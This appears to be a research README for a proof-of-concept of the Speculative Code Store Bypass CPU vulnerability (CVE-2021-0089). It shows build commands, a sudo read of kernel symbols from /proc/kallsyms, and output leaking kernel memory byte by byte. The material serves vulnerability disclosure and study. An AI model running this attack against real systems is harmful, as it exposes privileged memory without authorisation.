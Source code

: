 # Speculative Code Store Bypass POC
Speculative Code Store Bypass Vulnerability Proof-of-Concept

# Description
Speculative Code Store Bypass (SCSB) is a new transient execution attack which exploits the self-modifying code (SMC) mechanism in Intel processor. 
Intel published this vulnerability on 2021-06-08 and assigned it CVE-2021-0089. Look at their explainations for details:
https://software.intel.com/content/www/us/en/develop/articles/software-security-guidance/advisory-guidance/speculative-code-store-bypass.html.

We discoverd this vulnerability a long time ago and always used it as a novel way to suppress the fault in Meltdown-type attack. This POC is a demonstration. It is a little pity that we fail to disclose it in the first place. :( 
 
The Meltdown code borrowed in this POC is at:
https://github.com/paboldin/meltdown-exploit.

# Result
```
$ make
gcc -O3 -o scsb scsb.c

$ ./run.sh 
looking for linux_proc_banner in /proc/kallsyms
protected. requires root
+ find_linux_proc_banner /proc/kallsyms sudo
+ sudo sed -n -re s/^([0-9a-f]*[1-9a-f][0-9a-f]*) .* linux_proc_banner$/\1/p /proc/kallsyms
+ linux_proc_banner=ffffffff81800060
+ set +x
cached = 158, uncached = 404, threshold 208
read 25 % (score=913/1000)
read 73 s (score=904/1000)
read 20   (score=869/1000)
read 76 v (score=850/1000)
read 65 e (score=839/1000)
read 72 r (score=933/1000)
read 73 s (score=864/1000)
read 69 i (score=897/1000)
read 6f o (score=867/1000)
read 6e n (score=861/1000)
read 20   (score=789/1000)
read 25 % (score=809/1000)
read 73 s (score=883/1000)
read 20   (score=703/1000)
read 28 ( (score=856/1000)
read 62 b (score=774/1000)
read 75 u (score=770/1000)
read 69 i (score=682/1000)
read 6c l (score=856/1000)
read 64 d (score=698/1000)
read 64 d (score=776/1000)
read 40 @ (score=850/1000)
read 6c l (score=683/1000)
read 67 g (score=846/1000)
read 77 w (score=755/1000)
read 30 0 (score=725/1000)
read 31 1 (score=830/1000)
read 2d - (score=827/1000)
read 34 4 (score=766/1000)
read 33 3 (score=791/1000)
read 29 ) (score=736/1000)
read 20   (score=699/1000)
```
